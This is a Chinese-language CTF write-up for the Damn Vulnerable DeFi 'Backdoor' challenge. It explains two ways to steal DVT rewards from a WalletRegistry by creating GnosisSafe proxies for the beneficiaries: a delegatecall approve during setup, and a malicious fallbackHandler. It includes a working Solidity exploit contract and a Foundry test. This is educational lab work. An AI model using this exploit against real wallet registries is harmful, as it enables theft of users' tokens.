以上就是完成题目需要的一些前置知识,然后看 `WalletRegistry` 这个我们需要从中获得里面 40个 DVT 的注册奖励表合约,只有 4 个外部地址创建 GnosisSafe 钱包才能获得 10 个 DVT 钱包,那我们做为攻击者应该怎么获得.

看 到 **proxyCreated()** 函数,函数检查了是否被是被工厂合约调用,以及是否安照预期的正常初始化(检查有没有使用正确的逻辑合约,检查多签钱包所有者得为1人,多签钱包执行交易所需要的确认数量得为1,是否是可获得奖励代币的那四个地址创建钱包),如果通过则发送 DVT 代币奖励给创钱包的地址.

读过代码发现这个函数会在工厂合约调用  **createProxyWithCallback()** ,新的 `GnosisSafeProxy` 合同被成功部署和初始化后(也就是创建钱包)被工厂合约调用.

至于如何攻击获得 `WalletRegistry` 合约里的 40 个原本该奖励给 Alice、Bob、Charlie 和 David 的 DVT 代币,这里有两个方法

1.`GnosisSafeProxyFactory` ->  **createProxyWithCallback()** 创建钱包代理合约时 **initializercalldata** 初始化`to` `data` 委托调用我们恶意部署的合约,call dvt token 合约 approve() 将代币授权,因为这里还没初始化完成不会回调 **proxyCreated()** 将代币 transfer 给钱包代理合约,所以先授权,等 **proxyCreated()** 函数完成后再将代币 transfer.

2.感觉这种方法更符合 **Backdoor** 这个题意,利用的是 FallbackManager.sol  当调用逻辑合约里不存的函数时,会在 **fallbak()** 回退函数里  fallbackHandler.call 调用这个不存的函数.也就是 **initializercalldata** 初始化里将 **fallbackHandler** 设置为 DVT 代币合约地址,这样我们等同于创建了一个后门,调用代理合约 **transfer()** 这个函数不存在,会在 **fallbak()** 里 dvt.call 调用 transfer 将代币发送给我们.

使用 foundry 编写测试:

[Backdoor.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/Backdoor.t.sol) 

使用第 2 个方法完成挑战

```solidity
contract PayLoad {
    GnosisSafe mastercopy;
    DamnValuableToken dvt;
    GnosisSafeProxy walletProxyaddr;
    WalletRegistry walletregistry;
    GnosisSafeProxyFactory factory;
    
    constructor(
                GnosisSafe _mastercopy,
                DamnValuableToken _dvtaddr, 
                WalletRegistry _walletregistryaddr, 
                GnosisSafeProxyFactory _factoryaddr          
            ) {
        mastercopy = _mastercopy;
        dvt = _dvtaddr;
        walletregistry = _walletregistryaddr;
        factory = _factoryaddr;
    }
    
    function Start(address[] memory _beneficiaries) public {
    for (uint8 i=0; i < _beneficiaries.length; i++) {
        address beneficiary = _beneficiaries[i];
        address[] memory owners = new address[](1);
        owners[0] = beneficiary;
        bytes memory _initializercalldata  = abi.encodeWithSelector(mastercopy.setup.selector, 
                                                                    owners,
                                                                    1,
                                                                    address(0),
                                                                    0x0,
                                                                    address(dvt),
                                                                    address(0),
                                                                    0,
                                                                    address(0)
                                                                );
        walletProxyaddr = factory.createProxyWithCallback(address(mastercopy), _initializercalldata, 0, walletregistry);
        IERC20(address(walletProxyaddr)).transfer(msg.sender, 10e18);
        }
    }
}

contract Backdoor is Test {
    function testExploit() public {
        vm.startPrank(attacker);
        payload = new PayLoad(masterCopy, dvt, walletRegistry, walletFactory);
        payload.Start(users);
        vm.stopPrank();
        verfiy();
    }	
}
```

```
forge test --match-contract Backdoor -vvvv
```

